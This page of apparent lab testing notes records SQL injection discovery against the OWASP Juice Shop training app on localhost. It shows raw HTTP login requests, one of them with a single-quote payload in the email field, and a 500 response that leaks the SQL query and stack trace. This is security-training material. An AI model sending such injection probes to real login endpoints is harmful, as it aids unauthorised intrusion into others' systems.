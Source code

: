 # SQL Injection Testing

# SQL Injection Exists

## Invalid Credentials

### Request

POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Length: 37
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://localhost:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Cookie: welcomebanner_status=dismiss; cookieconsent_status=dismiss; language=en
Connection: keep-alive

{"email":"admi",
"password":"admin"}

### Response

HTTP/1.1 401 Unauthorized
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: text/html; charset=utf-8
Content-Length: 26
ETag: W/"1a-ARJvVK+smzAF3QQve2mDSG+3Eus"
Vary: Accept-Encoding
Date: Mon, 31 Mar 2025 16:01:32 GMT
Connection: keep-alive
Keep-Alive: timeout=5

Invalid email or password.


## SQL Query Error

### Request

POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Length: 40
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://localhost:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Cookie: welcomebanner_status=dismiss; cookieconsent_status=dismiss; language=en
Connection: keep-alive

{"email":"admin '",
"password":"admin"}

### Response

HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: application/json; charset=utf-8
Vary: Accept-Encoding
Date: Mon, 31 Mar 2025 15:56:51 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 1182

{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"21232f297a57a5a743894a0e4a801fc3\"",
    "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
    },
    "original": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL"
    },
    "sql": "SELECT * FROM Users WHERE email = 'admin '' AND password = '21232f297a57a5a743894a0e4a801fc3' AND deletedAt IS NULL",
    "parameters": {}
  }
}